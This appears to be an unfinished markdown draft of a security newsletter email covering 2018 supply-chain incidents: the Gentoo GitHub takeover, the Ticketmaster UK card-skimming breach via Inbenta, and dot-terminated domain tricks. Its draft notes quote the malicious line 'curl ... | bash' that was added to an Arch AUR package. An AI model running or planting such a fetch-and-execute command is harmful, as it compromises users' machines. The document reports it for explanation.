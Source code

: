 ```yaml
---
layout: email
title: Supply-chain attacks: Gentoo, Arch, and Ticketmaster UK
---
```


Follow-up to previous KATTFAKTA - mention that risk based has the issue where company just accepts risks even if it shouldn’t


This commit:
https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc

Right at the bottom, the line 
```
curl -s https://ptpb.pw/~x|bash -&
```
has been added 

https://www.bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/



Good morning.

My last email contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

### Dot-terminating domain names for domain blacklisting

A quick one to start with: Sucuri has an excellent [blog post](https://blog.sucuri.net/2018/07/coinimp-cryptominer-and-fully-qualified-domain-names.html) regarding the use of dot-terminated domain names to bypass domain blacklists. It's a cute trick, and yet another example of why blacklists are a fragile security measure.




### Gentoo's GitHub account hacked

Last week, the Gentoo Linux GitHub project was compromised. From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

Supply-chain attacks are something we've covered previously (most notably [here](https://markeldo.com/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/) and [here](https://markeldo.com/Email-update-Cisco-and-Cryptomining/)), and this is a classic example. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker—rather than attacking Ticketmaster directly—compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up

They're 

https://www.troyhunt.com/the-javascript-supply-chain-paradox-sri-csp-and-trust-in-third-party-libraries/
